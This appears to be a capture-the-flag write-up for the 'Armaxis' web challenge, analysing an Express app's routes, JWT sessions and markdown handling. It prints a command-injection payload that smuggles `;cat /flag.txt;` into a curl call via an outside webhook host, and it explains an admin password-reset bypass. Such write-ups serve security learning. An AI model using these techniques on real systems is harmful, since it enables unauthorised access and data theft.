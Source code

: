 # Armaxis

## Information Gathering

There are two ports available on the host `83.136.249.104`

- 32711 - challenge
- 48585 - email client for testing

There are two ports availabe on the host:
83.136.249.104

## Mapping the Application

### Entry Points

The challenge utilizes the Express Javascript library to create a web application. We can see where the routes are used in `challenge/index.js`

```js
app.use('/', routes);
```

The routes are located in `challenge/routes/index.js`. I used a regex to perform code extraction and get the paths for each URL:

```bash
$ cat challenge/routes/index.js | grep -E "^router\.(get|post)"
router.get("/", (req, res) => {
router.get("/reset-password", (req, res) => {
router.post("/register", async (req, res) => {
router.post("/login", async (req, res) => {
router.get("/logout", (req, res) => {
router.get("/weapons/dispatch", authenticate, (req, res) => {
router.post("/weapons/dispatch", authenticate, async (req, res) => {
router.get("/weapons", authenticate, async (req, res) => {
router.post("/reset-password/request", async (req, res) => {
router.post("/reset-password", async (req, res) => {
```

Some of the routes have a middleware function. The `authenticate` subroutine will execute for the `/weapons/dispath` and `/weapons` URL routes. 

### Major Components

I have a love hate relationship with web-applciations. I love them because the architecture is so easy to reverse engineer however, there are a lot of operations in HTTP and JS which works behind the scenes. Regardless, I'll quickly breakdown the components of this web application to map the attack surface.

**AuthN/AuthZ**

There is a authn (authentication) and authz (authorization) aspect of this web-application. Individuals can register accounts using identifiers (authn). In this case, the identifiers are an email and password. 

Additionally, there are actions which some users can perform that other can't (authz). We can interacte with the web application with different identies such as anonymous, regular user, and administrator.

This component is important because it implies that users have different permissions which is exactly the case in this challenge. You must have the `admin` role to use the `/weapons/dispatch` URL endpoint. 

We'll probably be looking for some sort of authentication bypass mechanism which brings me to my next component...

- https://www.cloudflare.com/learning/access-management/authn-vs-authz/
- https://portswigger.net/web-security/authentication
- https://www.strongdm.com/blog/authentication-vulnerabilities

**Session Management**

HTTP is a stateless protocol and thus, session information must be stored somewhere externally from the web server. This web-application utilizes JSON Web Tokens (JWT) for session identifiers. JWTs contain information about the user and what they can do (claims). JWTs themselves are secure, however bugs are typically introduced from bad application logic and implementation. 

The JWT logic is in `challenge/utils.js`. From quickly reviewing this file the logic looks solid. The token is verified correctly, a strong key is being used and stored securely, etc, etc etc...

- https://portswigger.net/web-security/jwt


## Information Leak

The administrator email is hard-coded into the source code at `challenge/database.js`

```js
await runInsertUser(
    "admin@armaxis.htb",
    `${crypto.randomBytes(69).toString("hex")}`,
    "admin",
);
```

## Potential Sinks

## Assets

## Components

### AuthN/AuthZ

From the /register endpoint, we are only able to create users with the role `user`

There is a password reset feature 

### Session Management

User sessions are managed by JWTs. 

The logic for this is in challenge/utils.js. The `authenticate` subroutine is bound to only three endpoints where two of the three endpoints require admin

### Database

There are three databases

users
weapons
password_resets

### Weapons

There are three endpoints which require us to be authenticated and have valid session

/weapons/dispatch - POST
/weapons/dispatch - GET
/weapons/ - GET

In the POST request to /weapons/dispatch, we can send information regarding a weapon. You can attach a note to it in markdown format which will then get parsed:
```js
function parseMarkdown(content) {
    if (!content) return '';
    return md.render(
        content.replace(/\!\[.*?\]\((.*?)\)/g, (match, url) => {
            try {
                const fileContent = execSync(`curl -s ${url}`);
                const base64Content = Buffer.from(fileContent).toString('base64');
                return `<img src="data:image/*;base64,${base64Content}" alt="Embedded Image">`;
            } catch (err) {
                console.error(`Error fetching image from URL ${url}:`, err.message);
                return `<p>Error loading image: ${url}</p>`;
            }
        })
    );
}
```

If we can pass the regex, we can get code execution with the `execSync` function.

![4-the-lulzz](https://webhook.site/4ec99cb2-5117-4d57-a73d-efc598cef996?q=;cat+/flag.txt;)

## Privilege Escalation
The `/reset-password` URL endpoint does not associate a password reset token with an email. 
```js
router.post("/reset-password", async (req, res) => {
  const { token, newPassword, email } = req.body; // Added 'email' parameter
  if (!token || !newPassword || !email)
    return res.status(400).send("Token, email, and new password are required.");

  try {
    const reset = await getPasswordReset(token); // check token in db
    if (!reset) return res.status(400).send("Invalid or expired token.");

    const user = await getUserByEmail(email); // get user from email
    if (!user) return res.status(404).send("User not found.");

    await updateUserPassword(user.id, newPassword);
    await deletePasswordReset(token);

    res.send("Password reset successful.");
  } catch (err) {
    console.error("Error resetting password:", err);
    res.status(500).send("Error resetting password.");
  }
});
```
We can submit a password reset for any account, then intercept the request for actually sending the new password. We can then put the admin email into the account field. This will pass the `getPasswordReset` check and reset the administrator password for us.

